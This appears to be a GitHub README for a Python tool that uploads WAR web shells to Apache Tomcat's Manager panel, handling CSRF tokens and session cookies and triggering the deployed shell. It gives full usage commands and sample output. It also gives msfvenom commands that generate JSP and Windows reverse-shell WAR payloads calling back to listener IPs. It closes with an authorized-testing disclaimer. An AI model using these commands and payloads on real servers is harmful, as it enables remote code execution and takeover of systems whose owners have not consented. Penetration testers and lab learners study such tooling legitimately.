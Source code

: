 # ☢️ Tomcat WAR File Uploader

A Python tool to upload `.war` web shells to Apache Tomcat via the Manager interface (`/manager/html`). Automatically handles CSRF protection and session cookies.
(Tested on Apache Tomcat/9.0.53)

## 🔧 Features

- Uploads WAR files to a Tomcat server
- Automatically extracts `JSESSIONID` and `CSRF_NONCE`
- Validates credentials before upload
- Triggers the uploaded shell if deployment succeeds

---

## 📦 Requirements

- Python 3.x
- `requests`
- `beautifulsoup4`

Install dependencies:

```bash
pip install -r requirements.txt
```

Or manually:

```bash
pip install requests beautifulsoup4
```

---

## 🚀 Usage

```bash
python3 tomcat_war_uploader.py --url http://<target>:8080 --username <user> --password <pass> --war-file shell.war
```

### Arguments

| Argument                  | Description                                                            |
|---------------------------|------------------------------------------------------------------------|
| `--url`                   | **(Required)** Base URL of the Tomcat server (e.g., `http://10.10.10.10:8080`) |
| `--username`              | **(Required)** Tomcat Manager username                                |
| `--password`              | **(Required)** Tomcat Manager password                                |
| `--war-file`              | WAR file to upload (default: `plugin.war`)                            |
| `--manager-panel`         | Manager panel path (default: `/manager/html`)                         |
| `--validate-credentials`  | Only validate credentials and exit (no upload)                        |

---

## 🧪 Examples

### Upload a WAR file

```bash
python3 tomcat_war_uploader.py --url http://10.10.10.10:8080 --username tomcat --password s3cret --war-file shell.war
```

### Validate credentials only

```bash
python3 tomcat_war_uploader.py --url http://10.10.10.10:8080 --username tomcat --password s3cret --validate-credentials
```
---

## ✅ Output

```text
[+] Parsed CSRF token: A1B2C3D4E5F6...
[+] War file uploaded successfully
[+] Shell triggered. Check your listener
```

---
---

## 🎯 Generating a Reverse Shell with `msfvenom`

You can generate a `.war` file payload using `msfvenom` for either Linux (JSP-based) or Windows (EXE wrapped as `.war`):

### 🔹 For Linux (JSP reverse shell):

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.122 LPORT=443 -f war -o revshell.war
```

### 🔹 For Windows (EXE reverse shell wrapped in WAR):

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.83 LPORT=9002 -f war > revshell.war
```

> ⚠️ For Windows payloads, make sure the target Tomcat server supports deploying `.exe` via WAR.

---


## ⚠️ Disclaimer

This script is intended for **educational and authorized security testing purposes only**. Do **not** use it against systems without explicit permission.
